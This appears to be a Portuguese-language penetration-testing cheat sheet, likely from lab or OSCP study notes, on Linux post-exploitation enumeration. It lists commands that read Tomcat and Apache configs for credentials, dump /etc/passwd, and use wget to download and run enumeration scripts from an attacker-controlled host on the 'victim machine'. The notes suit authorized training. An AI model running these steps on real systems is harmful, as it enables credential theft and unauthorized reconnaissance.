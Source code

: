 Aqui alguns detalhes na hora de navegar nos diretórios. Temos que verificar se existem outras aplicações rodando quando temos um apache na máquina alvo, assim como credenciais em seus arquivos de configuração. Vide que é possível obter i8sso por meio dos seguintes arquivos:

    cat /opt/tomcat/conf/tomcat-users.xml
    cat /etc/apache2/sites-enabled/*.conf

    ls -al /usr/local/
    ls -al /usr/local/src
    ls -al /usr/local/bin
    ls -al /opt/
    ls -R -al /home #Fazer recursivamente neste
    ls -al /var/
    ls -al /usr/src/


OS COMANDOS AQUI SÃO EXECUTADOS TODOS NA MÁQUINA VÍTIMA

## Enumerate Users

    cat /etc/passwd
    #non-system users
    awk -F: '($3>=1000)&&($1!="nobody"){print $1}' /etc/passwd

## LinEnum

https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

    wget http://10.10.14.17/4-privilege_escalation/LinEnum.sh -O le.sh
    chmod +x le.sh
    ./le.sh

ou 

https://raw.githubusercontent.com/bngr/OSCP-Scripts/master/bangenum.sh

## bangenum

è um resumo do LinEnum.sh

    wget http://10.10.14.17/4-privilege_escalation/bangenum.sh
    sed -i -e 's/\r$//' bangenum.sh
    chmod +x bangenum.sh
    ./bangenum.sh

## Local services

    netstat -nao

### Network information

    ip a
    ifconfig
    route
    routel
    ip route
    